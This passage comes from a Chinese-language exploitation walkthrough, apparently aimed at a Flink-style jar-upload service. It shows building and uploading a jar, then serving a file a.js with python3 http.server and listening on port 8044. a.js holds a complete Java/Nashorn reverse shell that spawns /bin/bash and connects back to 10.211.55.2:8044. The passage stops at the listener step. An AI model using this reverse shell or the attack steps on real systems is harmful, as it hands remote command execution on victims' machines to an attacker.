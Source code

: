 使用`Artifacts`打包，从左往右依次点击蓝色高亮选项（选Empty下面的）

[![](https://storage.tttang.com/media/attachment/2022/11/29/7f769d45-8621-46d1-9ee3-429d5fcc7514.png)
](https://storage.tttang.com/media/attachment/2022/11/29/7f769d45-8621-46d1-9ee3-429d5fcc7514.png)

配置成如下图所示

[![](https://storage.tttang.com/media/attachment/2022/11/29/b435a5d3-8961-4b2e-848a-b2228b2bd1f5.png)
](https://storage.tttang.com/media/attachment/2022/11/29/b435a5d3-8961-4b2e-848a-b2228b2bd1f5.png)

点击`OK`

[![](https://storage.tttang.com/media/attachment/2022/11/29/6b800225-3f08-48b4-ae41-064d5591b57a.png)
](https://storage.tttang.com/media/attachment/2022/11/29/6b800225-3f08-48b4-ae41-064d5591b57a.png)

从上到下，依次点击蓝色高亮选项

[![](https://storage.tttang.com/media/attachment/2022/11/29/7a4bdbb9-ad7a-4563-8663-6689efc785bd.png)
](https://storage.tttang.com/media/attachment/2022/11/29/7a4bdbb9-ad7a-4563-8663-6689efc785bd.png)

点击Build，即可在`out`目录找到打包后的`jar`包

[![](https://storage.tttang.com/media/attachment/2022/11/29/ded17938-b91e-49ec-8f11-976176fad6ad.png)
](https://storage.tttang.com/media/attachment/2022/11/29/ded17938-b91e-49ec-8f11-976176fad6ad.png)

1.  上传打包后的jar包

[![](https://storage.tttang.com/media/attachment/2022/11/29/1fdc2237-3886-4f37-963a-56e568e38226.png)
](https://storage.tttang.com/media/attachment/2022/11/29/1fdc2237-3886-4f37-963a-56e568e38226.png)

正常情况下，会自动显示`Entry-Class`。点击Submit

1.  本机（10.211.55.2）启动一个`http.server`，目录下放`a.js`，内容如下

`var host="10.211.55.2";
var port=8044;
var cmd="/bin/bash";
var p=new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();var s=new java.net.Socket(host,port);var pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();java.lang.Thread.sleep(50);try {p.exitValue();break;}catch (e){}};p.destroy();s.close();` 

启动服务，并测试服务可用

`python3 -m http.server 8000` 

[![](https://storage.tttang.com/media/attachment/2022/11/29/fcf15a94-b7b0-4e98-807f-14cfe1644928.png)
](https://storage.tttang.com/media/attachment/2022/11/29/fcf15a94-b7b0-4e98-807f-14cfe1644928.png)

1.  在本机（10.211.55.2）监听8044端口

[![](https://storage.tttang.com/media/attachment/2022/11/29/2addb319-9fb6-42e7-b42c-f64ef495e3cd.png)
](https://storage.tttang.com/media/attachment/2022/11/29/2addb319-9fb6-42e7-b42c-f64ef495e3cd.png)
